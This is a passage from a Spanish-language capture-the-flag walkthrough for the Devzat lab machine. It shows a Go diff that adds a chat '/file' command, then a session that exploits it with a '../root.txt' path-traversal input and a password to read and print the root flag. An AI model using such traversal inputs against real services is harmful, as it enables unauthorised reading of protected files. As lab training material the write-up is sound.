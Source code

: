 ```
+
+       // Check if file exists
+       if _, err := os.Stat(printPath); err == nil {
+               // exists, print
+               file, err := os.Open(printPath)
+               if err != nil {
+                       u.system(fmt.Sprintf("Something went wrong opening the file: %+v", err.Error()))
+                       return
+               }
+               defer file.Close()
+
+               scanner := bufio.NewScanner(file)
+               for scanner.Scan() {
+                       u.system(scanner.Text())
+               }
+
+               if err := scanner.Err(); err != nil {
+                       u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
+               }
+
+               return
+
+       } else if os.IsNotExist(err) {
+               // does not exist, print error
+               u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
+               return
+       }
+       // bokred?
+       u.system("Something went badly wrong.")
 }
```

Volvamos a conectarnos al DevChat para probar el nuevo comando.

```console
catherine@devzat:~$ ssh -l catherine devzat.htb -p 8443
catherine: /commands
[SYSTEM] Commands
[SYSTEM] clear - Clears your terminal
[SYSTEM] message - Sends a private message to someone
[SYSTEM] users - Gets a list of the active users
[SYSTEM] all - Gets a list of all users who has ever connected
[SYSTEM] exit - Kicks you out of the chat incase your client was bugged
[SYSTEM] bell - Toggles notifications when you get pinged
[SYSTEM] room - Changes which room you are currently in
[SYSTEM] id - Gets the hashed IP of the user
[SYSTEM] commands - Get a list of commands
[SYSTEM] nick - Change your display name
[SYSTEM] color - Change your display name color
[SYSTEM] timezone - Change how you view time
[SYSTEM] emojis - Get a list of emojis you can use
[SYSTEM] help - Get generic info about the server
[SYSTEM] tictactoe - Play tictactoe
[SYSTEM] hangman - Play hangman
[SYSTEM] shrug - Drops a shrug emoji
[SYSTEM] ascii-art - Bob ross with text
[SYSTEM] example-code - Hello world!
[SYSTEM] file - Paste a files content directly to chat [alpha]
                                                                                                                                                                                 5 minutes in
catherine: /file ../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] e1b8707c938e4fb49bce2a4023bc8b53
```